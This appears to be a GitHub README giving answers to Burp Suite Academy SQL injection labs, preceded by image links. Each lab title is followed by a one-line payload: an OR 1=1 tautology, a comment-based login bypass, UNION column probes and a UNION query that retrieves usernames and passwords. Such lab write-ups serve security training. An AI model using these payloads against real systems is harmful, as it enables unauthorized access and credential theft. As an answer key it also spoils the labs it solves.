






# Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--

### SQL injection UNION attack, finding a column containing text
#### Solution: 'UNION SELECT NULL,'HELLO BUDDY',NULL--

### SQL injection UNION attack, retrieving data from other tables
#### Solution: 'UNION SELECT username, password FROM users--

